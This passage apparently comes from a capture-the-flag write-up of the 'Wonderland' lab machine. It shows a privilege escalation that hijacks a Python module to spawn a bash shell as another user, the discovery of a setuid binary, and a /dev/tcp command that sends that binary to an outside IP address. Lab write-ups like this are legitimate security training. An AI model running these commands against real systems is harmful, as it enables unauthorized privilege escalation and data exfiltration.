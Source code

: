 But I can create one to let the script load

```bash
alice@wonderland:~$ echo 'import os;os.system("/bin/bash")' > random.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```


## From user Rabbit to Hatter


#### Found suid binary in home directory

```bash
rabbit@wonderland:~$ cd /home/rabbit
rabbit@wonderland:/home/rabbit$ ls -la
```

![](/assets/obsidian/fd908209f4d69e6ced733f3e151f86bc.png)

There's a binary with setuid

```bash
rabbit@wonderland:/home/rabbit$ file teaParty
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped

rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Tue, 25 Jul 2023 15:16:46 +0000
Ask very nicely, and I will give you some tea while you wait for him

Segmentation fault (core dumped)
```


#### Transfer the binary

```bash
rabbit@wonderland:/home/rabbit$ cat teaParty > /dev/tcp/10.11.19.145/1111
rabbit@wonderland:/home/rabbit$
```
